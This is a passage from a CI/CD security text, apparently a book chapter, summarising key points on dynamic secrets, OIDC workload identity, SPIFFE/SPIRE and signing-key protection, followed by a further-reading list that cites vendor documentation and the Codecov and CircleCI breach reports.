- **Dynamic secrets collapse the exposure window** from years to minutes — Vault mints ephemeral
  DB/cloud credentials that expire on a lease. But they sharpen the *secret zero* problem: how does
  the job authenticate in the first place?
- **Workload identity resolves secret zero and is the destination.** OIDC federation lets a job
  prove its identity with a signed, per-run token and receive short-lived credentials via a trust
  policy — nothing stored at rest to steal. Scope trust policies tightly (repo + ref +
  environment); an over-broad policy is a stored secret with extra steps. SPIFFE/SPIRE generalizes
  this to an org-wide identity plane.
- **Signing keys are the crown jewels.** A stolen signing key lets an attacker sign malware as
  you. Never store raw key material in CI: use KMS/HSM-backed signing (the key never leaves the
  boundary) or Sigstore keyless (ephemeral key, OIDC-bound cert, nothing at rest).
- **Detect and assume breach.** Secret scanning with push protection, log and artifact scanning,
  and — above all — short TTLs that make rotation automatic. Incident response for a leaked CI
  secret is "rotate everything the pipeline could touch," which is cheap on rung 4 and brutal on
  rung 1.
- **At fleet scale, stored secrets are a shared liability.** The org's exposure is set by its
  weakest pipeline. Standardize workload identity as a paved-road capability so no team stores a
  long-lived secret; the payoff is super-linear in fleet size.

## Further reading

- **HashiCorp Vault**, *Dynamic Secrets*, *Database Secrets Engine*, and *JWT/OIDC Auth Method*
  documentation — the authoritative reference for ephemeral credentials and for authenticating CI
  jobs by OIDC identity rather than a stored token.
  <https://developer.hashicorp.com/vault/docs/secrets>
- **GitHub Docs**, *About security hardening with OpenID Connect* and *Configuring OpenID Connect
  in cloud providers* — the mechanism, claim format, and trust-policy configuration for OIDC
  federation from Actions to AWS/GCP/Azure (developed further in Chapter 5).
  <https://docs.github.com/actions/deployment/security-hardening-your-deployments>
- **GitLab Docs**, *CI/CD variables — protected and masked variables* and *ID tokens / OIDC* — the
  primary source for GitLab's secrets model and the documented limits of masking.
- **SPIFFE / SPIRE**, *SPIFFE specification* and *SPIRE documentation* — workload identity as a
  first-class primitive (SPIFFE IDs and SVIDs), the generalization of the OIDC-to-cloud pattern
  (see also Book 5, Chapter 4 and Book 9). <https://spiffe.io/docs/>
- **Sigstore**, *Fulcio* and *Rekor* documentation, and the **`cosign`** reference — keyless
  signing, the ephemeral-key/short-lived-certificate model, and transparency logging (architecture
  in Book 5, Chapters 3–4). <https://docs.sigstore.dev/>
- **AWS**, *IAM roles for identity providers and federation* and **GCP**, *Workload Identity
  Federation* — the cloud-side trust-policy and short-lived-credential mechanics that OIDC
  federation targets.
- **Codecov**, *Bash Uploader Security Update* (April 2021) — the environment-variable
  exfiltration incident and the "rotate all CI-exposed credentials" remediation (Book 1,
  Chapter 5).
- **CircleCI**, *Incident Report for January 4, 2023 Security Incident* — the provider-breach
  failure mode and the all-customer secret rotation (Chapter 4).
- Book 1, Chapter 5 (Codecov) and Chapter 3 (SolarWinds); Book 2, Chapter 4 (malicious packages
  and obfuscation); Book 4, Chapter 4 (CI/CD platform threats) and Chapter 5 (Hardening GitHub
  Actions, OIDC specifics), Chapter 7 (Pipeline poisoning, caches), Chapter 10 (Secure build
  platform at scale); Book 5, Chapters 3–4 (Sigstore, workload identity); Book 7, Chapter 4
  (source-side secret scanning); Book 8, Chapter 6 (incident response and recovery).
